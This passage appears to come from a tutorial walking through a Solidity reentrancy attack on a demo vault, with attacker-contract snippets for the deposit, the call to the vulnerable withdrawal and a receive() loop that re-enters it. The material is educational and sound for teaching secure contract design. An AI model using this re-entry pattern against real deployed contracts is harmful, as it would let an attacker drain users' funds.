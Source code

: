 We make sure the contract knows this is a **vulnerable attack**, not a test against the safe version.

And we reset the loop counter to start fresh.

---

### 🎣 The Bait: Deposit ETH into the Vault

```solidity
targetVault.deposit{value: msg.value}();
```

We make a legitimate deposit into the vault. This updates our balance in the vault’s internal mapping — making us eligible to withdraw that ETH.

At this point, the vault is holding our 1 ETH safely… or so it thinks.

---

### 🚪 The Entry Point: Trigger the Withdrawal

```solidity
 targetVault.vulnerableWithdraw();
```

Now we call the vault’s vulnerable withdrawal function.

This function:

- **Checks our balance**
- **Sends us the ETH**
- **Only afterward** sets our balance to zero

And **that’s the mistake** — because right when the vault sends us ETH, our contract’s `receive()` function gets triggered...

# ⚡ `receive()` – Where the Reentrancy Magic Happens

```solidity
 receive() external payable {
    attackCount++;

    if (!attackingSafe && address(targetVault).balance >= 1 ether && attackCount < 5) {
        targetVault.vulnerableWithdraw();
    }

    if (attackingSafe) {
        targetVault.safeWithdraw(); // This will fail
    }
}
```

This function is the **core of the attack loop** — it’s where the vault gets tricked again and again by the same malicious actor.
